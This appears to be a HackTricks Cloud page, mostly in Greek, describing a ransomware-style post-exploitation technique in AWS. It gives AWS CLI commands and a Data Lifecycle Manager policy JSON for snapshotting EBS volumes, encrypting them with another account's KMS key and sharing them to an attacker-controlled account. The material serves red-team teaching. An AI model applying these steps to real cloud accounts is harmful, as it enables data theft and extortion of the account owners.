 # AWS - DLM Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Data Lifecycle Manger (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

Μια επίθεση ransomware μπορεί να εκτελεστεί κρυπτογραφώντας όσο το δυνατόν περισσότερους EBS όγκους και στη συνέχεια διαγράφοντας τις τρέχουσες EC2 περιπτώσεις, EBS όγκους και στιγμιότυπα. Για να αυτοματοποιηθεί αυτή η κακόβουλη δραστηριότητα, μπορεί κανείς να χρησιμοποιήσει το Amazon DLM, κρυπτογραφώντας τα στιγμιότυπα με ένα KMS κλειδί από άλλο AWS λογαριασμό και μεταφέροντας τα κρυπτογραφημένα στιγμιότυπα σε διαφορετικό λογαριασμό. Εναλλακτικά, μπορεί να μεταφέρει στιγμιότυπα χωρίς κρυπτογράφηση σε έναν λογαριασμό που διαχειρίζεται και στη συνέχεια να τα κρυπτογραφήσει εκεί. Αν και δεν είναι απλό να κρυπτογραφήσει κανείς υπάρχοντες EBS όγκους ή στιγμιότυπα απευθείας, είναι δυνατόν να το κάνει δημιουργώντας έναν νέο όγκο ή στιγμιότυπο.

Αρχικά, θα χρησιμοποιήσει μια εντολή για να συγκεντρώσει πληροφορίες σχετικά με τους όγκους, όπως το ID της περιπτώσης, το ID του όγκου, την κατάσταση κρυπτογράφησης, την κατάσταση προσάρτησης και τον τύπο του όγκου.

`aws ec2 describe-volumes`

Δεύτερον, θα δημιουργήσει την πολιτική κύκλου ζωής. Αυτή η εντολή χρησιμοποιεί το DLM API για να ρυθμίσει μια πολιτική κύκλου ζωής που αυτόματα λαμβάνει καθημερινά στιγμιότυπα των καθορισμένων όγκων σε μια καθορισμένη ώρα. Επίσης, εφαρμόζει συγκεκριμένες ετικέτες στα στιγμιότυπα και αντιγράφει ετικέτες από τους όγκους στα στιγμιότυπα. Το αρχείο policyDetails.json περιλαμβάνει τις λεπτομέρειες της πολιτικής κύκλου ζωής, όπως τις στοχευμένες ετικέτες, το πρόγραμμα, το ARN του προαιρετικού KMS κλειδιού για κρυπτογράφηση και τον στοχευμένο λογαριασμό για κοινή χρήση στιγμιότυπων, ο οποίος θα καταγραφεί στα αρχεία CloudTrail του θύματος.
```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
Ένα πρότυπο για το έγγραφο πολιτικής μπορεί να δει εδώ:
```bash
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "DailySnapshots",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "SnapshotCreator",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CostCenter",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στο [**telegram group**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
